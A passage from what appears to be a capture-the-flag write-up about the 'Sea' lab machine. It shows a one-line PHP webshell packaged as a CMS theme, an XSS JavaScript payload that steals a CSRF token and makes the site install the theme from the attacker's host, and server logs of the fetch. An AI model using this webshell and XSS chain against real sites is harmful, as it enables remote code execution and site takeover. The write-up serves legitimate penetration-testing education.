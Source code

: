 I’ll make my own. It’s just a simple PHP webshell in a theme name directory in a zip archive:

```

oxdf@hacky$ cat theme223/cmd.php
<?php system($_REQUEST['cmd']); ?>
oxdf@hacky$ zip -r theme223.zip theme223/
  adding: theme223/ (stored 0%)
  adding: theme223/cmd.php (stored 0%)
oxdf@hacky$ unzip -l theme223.zip 
Archive:  theme223.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  2024-08-11 13:52   theme223/
       35  2024-08-11 13:52   theme223/cmd.php
---------                     -------
       35                     2 files

```

#### XSS Payload

As I can inject a script tag, the attack is to abuse this XSS as the logged in user, and use that to install a malicious theme. The POC is a bit complicated for me. It’s doing a lot, when really only one request is needed. The JS will:
- Get a token value from the current page.
- Make a request to install a theme from a remote host (my VM).

That JavaScript will look like:

```

var token = document.querySelectorAll('[name="token"]')[0].value;
var urlRev = "/?installModule=http://10.10.14.6/theme223.zip&directoryName=violet&type=themes&token=" + token;
var xhr = new XMLHttpRequest();
xhr.withCredentials = true;
xhr.open("GET", urlRev);
xhr.send();

```

I’ll save this as `0xdf.js`, and when Sea next requests it (it doesn’t seem to clean up on failed gets), the Python webserver returns the JS, and then there are four requests for the theme:

```
10.10.11.28 - - [11/Aug/2024 13:56:52] "GET /0xdf.js HTTP/1.1" 200 -
10.10.11.28 - - [11/Aug/2024 13:57:01] "GET /theme223.zip HTTP/1.1" 200 -
10.10.11.28 - - [11/Aug/2024 13:57:01] "GET /theme223.zip HTTP/1.1" 200 -
10.10.11.28 - - [11/Aug/2024 13:57:01] "GET /theme223.zip HTTP/1.1" 200 -
10.10.11.28 - - [11/Aug/2024 13:57:01] "GET /theme223.zip HTTP/1.1" 200 -

```

I’ll find the unpacked webshell at `/themes/theme223/cmd.php`, and it works to get code execution:

